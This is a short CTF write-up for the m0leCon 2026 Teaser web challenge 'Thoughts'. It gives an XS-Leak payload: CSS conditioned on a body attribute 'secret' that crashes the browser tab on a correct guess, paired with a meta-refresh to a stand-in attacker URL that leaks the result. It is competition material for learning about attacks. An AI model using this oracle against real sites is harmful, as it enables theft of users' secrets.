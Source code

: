 # m0leCon CTF 2026 Teaser

## [web] Thoughts (9 solves)

Share your thoughts!

Author: Sebastiano Sartor <@sebsrt>

## Solution

Unfortunately the challenge was put up too quickly and was not properly tested, enabling solutions such as: https://gist.github.com/terjanq/3e866293610aa6c5629df4353e5d87d9

Intended solution:

TLDR:
XS Leak using css contidional tab crash + meta redirect

```html
<style>
    :where(body[secret^="GUESS"]) .z {float: inline-start;  }
    * {text-wrap: pretty; }
</style><a>1</p><dir><legend class="z"></legend><details>
<meta http-equiv="refresh" content="0; URL='attacker'" />
```

if the tab crashes when the condition is matched, the redirect doesn't happen.

## Exploit

[here](/m0lecon-2026-teaser/thoughts/solve)
